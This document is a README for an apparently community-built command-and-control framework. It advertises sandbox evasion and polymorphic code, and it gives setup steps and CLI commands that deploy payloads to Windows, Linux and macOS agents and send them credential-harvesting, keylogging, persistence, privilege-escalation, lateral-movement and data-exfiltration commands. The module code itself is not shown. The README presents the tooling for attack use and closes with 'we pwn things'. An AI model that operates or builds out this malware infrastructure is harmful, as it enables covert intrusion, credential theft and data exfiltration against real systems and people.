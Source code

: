 This is the start of a c2 server and client (currently windows) deployment. It's from our community as a whole. More functionality to follow in due course. 

# Features

Enhanced Evasion Techniques: Polymorphic code, sandbox detection, time-based evasion.
Advanced Post-Exploitation Modules: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
Secure Communication: Encrypted communication between agent and C2 server.
Modular Design: Easily add new modules and functionalities.
Logging and Reporting: Detailed logging and report generation.



# Installation and Setup

Clone the repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv within the sovereign-c2 directory

source venv/bin/activate (in a new terminal e.g. source venv/bin/activate in the same directory, but separate terminal window). Results of the initial supported powershell commands sent will output to the check-in terminal window. 

On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh (Work in progress)
    payloads/linux_payload.sh (Work in progress)
    payloads/windows_payload.ps1 (Work in progress)

# Running the C2 Server

python c2_server/c2_server.py CLI Usage

List Agents python cli/cli.py list-agents

Deploy Payload python cli/cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli/cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli/cli.py generate-report

Send a Specific Command python cli/cli.py send-command <agent_id>

# Supported Commands

Credential Harvesting python cli/cli.py send-command <agent_id> cred_harvest

Persistence python cli/cli.py send-command <agent_id> persistence

Privilege Escalation python cli/cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli/cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli/cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli/cli.py send-command <agent_id> keylogging

Lateral Movement python cli/cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py

# By the way, we pwn things.....
